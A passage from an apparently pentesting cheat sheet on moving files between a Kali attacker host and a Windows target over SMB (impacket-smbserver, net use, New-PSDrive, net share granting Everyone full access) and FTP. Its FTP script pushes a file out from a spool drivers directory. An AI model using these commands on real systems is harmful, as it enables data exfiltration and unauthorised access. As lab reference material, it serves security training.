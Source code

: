 

### SMB


#### impacket-smbserver

SMB server (communicate with Windows **[1]**):

```
root@kali:$ impacket-smbserver -smb2support files `pwd`
```

1. [serverfault.com/a/333584/554483](https://serverfault.com/a/333584/554483)

Mount SMB in Windows with `net use`:

```
root@kali:$ impacket-smbserver -username j1v37u2k3y -password 'P@ssw0rd123' -smb2support share `pwd`
PS > net use Z: \\10.10.14.16\share
PS > net use Z: \\10.10.14.16\share /u:j1v37u2k3y 'P@ssw0rd123'
# Delete the share after use
PS > net use Z: /d
```

Mount SMB in Windows with `New-PSDrive`:

```
root@kali:$ impacket-smbserver -username j1v37u2k3y -password 'P@ssw0rd123' -smb2support share `pwd`
PS > $pass = 'P@ssw0rd123' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('j1v37u2k3y', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('j1v37u2k3y', $(ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force))
PS > New-PSDrive -name Z -root \\10.10.14.16\share -Credential $cred -PSProvider 'filesystem'
PS > cd Z:
```


#### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```



### FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```
